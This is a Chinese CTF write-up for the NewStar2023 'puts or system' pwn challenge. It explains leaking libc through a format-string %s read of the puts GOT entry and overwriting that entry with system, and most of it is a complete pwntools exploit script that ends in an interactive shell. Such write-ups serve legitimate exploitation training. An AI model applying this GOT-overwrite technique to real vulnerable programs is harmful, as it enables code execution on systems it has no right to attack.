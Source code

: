 ```yaml
---
title: 格式化字符串修改got表
tags: [ctf-pwn,fmt]
date: 2023-11-27 13:12:00
categories: [ctf-pwn]
excerpt: ...
---
```


### NewStar2023 puts or system

<https://buuoj.cn/match/matches/190/challenges>

通过%s泄露libc

目的是通过`b'a' * 4 + b'%?$s' + p64(puts_got)`把puts_got当成字符串的地址，打印got表项

4个a和`%?$s`加起来正好是8个字节。

在获取是第几个%s的时候，由于不能像%p那样一直%s%s%s%s.....，因为%s如果作为地址取内容失败会崩溃

所以在第一次试的时候就要用 `'a' * 8 + 'b' * 8` （8个a代表原本的4个a和%?$s，8个b代表puts的got表地址），然后再加上%p%p%p%p%p%p%p%p......

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
#p = process('./putsorsys')
p=remote("node4.buuoj.cn",27515)
elf = ELF('putsorsys')
libc = ELF('libc.so.6')

puts_got = elf.got['puts']

offset = 8
p.sendlineafter("(0/1)\n", '1')

payload = b'a' * 4 + b'%9$s' + p64(puts_got)
p.send(payload)

p.recvuntil('aaaa')
puts_addr = u64(p.recv(6).ljust(8,b"\x00"))

print(hex(puts_addr))
libc_base = puts_addr - libc.symbols['puts'] 
sys_addr = libc_base + libc.symbols['system'] 
print(hex(sys_addr))

p.sendlineafter("(0/1)\n", '1')
fmtpayload = fmtstr_payload(offset, {puts_got:sys_addr})
p.sendlineafter("What's it\n",fmtpayload)
p.sendline('0')

p.interactive()

```

